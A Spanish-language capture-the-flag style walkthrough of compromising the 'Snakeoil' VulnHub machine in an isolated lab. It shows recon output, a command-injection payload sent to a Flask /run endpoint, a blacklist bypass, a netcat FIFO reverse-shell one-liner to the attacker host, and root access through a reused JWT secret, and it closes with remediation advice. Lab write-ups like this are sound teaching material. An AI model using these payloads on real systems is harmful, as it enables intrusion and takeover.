









Ficha Técnica
De la teoría a la práctica: Walkthrough en acción
Demostración práctica de las técnicas y metodologías utilizadas para evaluar y vulnerar la máquina virtual "Snakeoil" en un entorno controlado.
El proceso abarca desde la recolección inicial de información hasta el compromiso total del sistema, logrando acceso administrativo (root) e ilustrando los riesgos asociados a las configuraciones vulnerables y la falta de sanitización de entradas en servicios web.
Máquina Virtual "Snakeoil" (Debian 10)
Descarga VulnHub: digitalworldlocal-snakeoil (v738)
• Máquina Atacante: Kali Linux (Modo Host-Only / Solo anfitrión)
• Máquina Víctima: Snakeoil VM (Debian 10)
• Aislamiento: Red virtual privada sin acceso a infraestructuras externas
Demostración
Walkthrough en Video: Procedimiento Paso a Paso
Demostración audiovisual completa del reconocimiento perimetral, interacción con el backend web y escalada interna en la máquina objetivo.
>_ Nota: El video detalla la ejecución en tiempo real de los comandos, la interpretación de códigos HTTP y la remediación defensiva.
Reconocimiento
3.1. Identificación de Hosts Activos y Topología
La máquina atacante Kali Linux se configuró con un adaptador dual (NAT para conectividad y Adaptador sólo anfitrión en la interfaz eth1 con la IP 192.168.56.101) . Mediante la herramienta arp-scan se emitieron sondas ARP en el segmento local para localizar la máquina vulnerable :
kali@kali:~# sudo arp-scan -I eth1 --localnet
Interface: eth1, type: EN10MB, MAC: 08:00:27:4c:da:f4, IPv4: 192.168.56.101
Starting arp-scan 1.10.0 with 256 hosts
192.168.56.100 08:00:27:da:5c:6f (Unknown)
192.168.56.102 08:00:27:42:84:ed (Unknown) <-- Host Objetivo Snakeoil
2 responded 
>_ Detección de la dirección IP 192.168.56.102 asignada a la máquina Snakeoil en la red sólo anfitrión .
3.2. Escaneo Exhaustivo de Puertos y Servicios (Nmap)
Se ejecutó una inspección completa sobre los 65,535 puertos TCP empleando el comando sudo nmap -p- -sV -sC 192.168.56.102 . El escaneo determinó los siguientes vectores expuestos :
| Puerto | Protocolo | Servicio | Versión / Banner Técnico |
|---|---|---|---|
| 22 | TCP | SSH | OpenSSH 7.9p1 Debian 10+deb10u2 (Protocolo 2.0) |
| 80 | TCP | HTTP | nginx 1.14.2 (Título: "Welcome to SNAKEOIL!") |
| 8080 | TCP | HTTP | nginx 1.14.2 (Título: "Welcome to Good Tech Inc.'s Snake Oil Project") |

>_ Salida técnica de Nmap reportando los puertos 22, 80 y 8080 en estado abierto .
Web & API
4.1. Fuerza Bruta de Directorios y Endpoints (Gobuster)
La aplicación del puerto 8080 corresponde a un blog desarrollado bajo el microframework Flask con autenticación administrada por flask-jwt-extended . La enumeración con Gobuster descubrió las siguientes rutas de API :

>_ Identificación de endpoints críticos: /create, /login, /registration, /run, /secret y /users .
4.2. Fuga de Credenciales (/users)
Una solicitud GET /users no contaba con mecanismos de autenticación y devolvió una estructura JSON exponiendo la cuenta del usuario patrick junto con su hash criptográfico derivado con el algoritmo PBKDF2-HMAC-SHA256 :
kali@kali:~# curl -i http://192.168.56.102:8080/users
HTTP/1.1 200 OK
Content-Type: application/json
{"users": [{"username": "patrick", "password": "$pbkdf2-sha256$29000$e0/J.V.rVSol5HxPqdW6Nw$FZJVgjNJIw99RIiojrT/gn9xRr9SI/RYn.CGf84r040"}]} 
>_ Exposición de identificador de usuario y hash de contraseña sin restricción de acceso .
4.3. Registro, Autenticación y Extracción del Secreto Interno
Aprovechando el endpoint desprotegido /registration, se registró un usuario arbitrario (usuario1 / prueba123) . Al autenticarlo en /login, la aplicación emitió un access_token y un refresh_token firmados . Utilizando este Access Token en la cabecera Cookie: access_token_cookie=... se consumió el recurso restringido /secret, obteniendo la clave interna de ejecución :
kali@kali:~# curl -X GET http://192.168.56.102:8080/secret -H "Cookie: access_token_cookie=[JWT_TOKEN]"
{"ip-address": "", "secret_key": "commandexecutionissecret"} 
>_ Obtención de la clave autorizada commandexecutionissecret para la API administrativa .
Explotación
5.1. Inyección de Comandos en el Endpoint /run (RCE)
El endpoint /run recibe una petición JSON con los parámetros url y secret_key . En el backend, el valor de url es concatenado directamente en una subrutina del sistema mediante Popen con la directiva shell=True . Inyectando el delimitador de instrucciones (;) junto con el comando 'id', el servidor procesó la petición ejecutando la instrucción a nivel de sistema operativo :
kali@kali:~# curl -X POST http://192.168.56.102:8080/run \
-H "Authorization: Bearer [JWT_TOKEN]" \
-H "Content-Type: application/json" \
-d '{"url":"127.0.0.1:80; id;", "secret_key":"commandexecutionissecret"}' 
>_ Verificación del RCE al ejecutarse comandos del sistema a través de la API .
5.2. Evasión de Filtros y Extracción del Código Fuente
La aplicación implementaba una lista negra de comandos que bloqueaba cadenas directas como bash, python o nc . Para examinar la arquitectura de control, se eludió la restricción inyectando la lectura del archivo principal con la instrucción -h;cat app.py;, permitiendo volcar en la respuesta HTTP el código fuente completo del backend Flask :

>_ Volcado completo del script de la aplicación web exponiendo variables de configuración .
5.3. Shell Reversa y Acceso Inicial
Para evitar los filtros textuales sobre la terminal interactiva, se construyó un script externo en la máquina atacante conteniendo una tubería nombrada (FIFO Pipe) :
# Payload alojado en Kali Linux (192.168.56.101):
kali@kali:~# echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.101 4444 >/tmp/f" > shell.sh
# Listener Netcat en espera de conexión:
kali@kali:~# nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.56.101] from (UNKNOWN) [192.168.56.102] 41378
patrick@SNAKEOIL:~/flask_blog$ 
>_ Conexión reversa exitosa recibida en Netcat bajo el contexto de usuario patrick .
Escalada
6.1. Estabilización de TTY y Auditoría de Permisos Sudo
La shell fue estabilizada ejecutando python3 -c 'import pty; pty.spawn("/bin/bash")' . Al auditar las autorizaciones de ejecución mediante sudo -l, se constató que la cuenta patrick poseía la directiva global (ALL : ALL) ALL, requiriendo únicamente validar su contraseña local de Linux .
6.2. Reutilización de Credenciales (CWE-522) y Compromiso Total
Al inspeccionar el bloque de configuración en el archivo app.py volcado previamente, se observó que la variable de firma de tokens app.config['JWT_SECRET_KEY'] contenía la cadena NOreasonableDOUBTthisPASSWORDiSGOOD . Se comprobó que dicha clave secreta fue reutilizada indebidamente como contraseña del sistema operativo para el usuario patrick :
patrick@SNAKEOIL:~/flask_blog$ sudo su
[sudo] password for patrick: NOreasonableDOUBTthisPASSWORDiSGOOD
root@SNAKEOIL:/home/patrick/flask_blog# id
uid=0(root) gid=0(root) groups=0(root)
root@SNAKEOIL:/home/patrick/flask_blog# cat /root/proof.txt
Congratulations on obtaining a root shell on this machine! :-) 
>_ Elevación de privilegios a root y lectura de la prueba de compromiso final (/root/proof.txt) .
Defensa
7. Recomendaciones de Seguridad y Mitigación
Para remediar la cadena de explotación evidenciada, se dictaminan los siguientes controles en la infraestructura :
Restringir de forma mandatoria el acceso al endpoint /users decorándolo con directivas explícitas de autorización (ej. @jwt_required()) y abstenerse de enviar hashes criptográficos de contraseñas dentro de respuestas JSON .
Eliminar la concatenación directa de parámetros hacia funciones de sistema con intérprete habilitado (Popen(..., shell=True)) . Los argumentos deben pasarse como listas estructuradas y validarse rigurosamente mediante listas blancas (allowlists) de dominios e IPs permitidas .
Los secretos criptográficos de firma JWT jamás deben residir en texto plano en el repositorio del código fuente ni ser reutilizados como credenciales de acceso de cuentas locales del sistema operativo .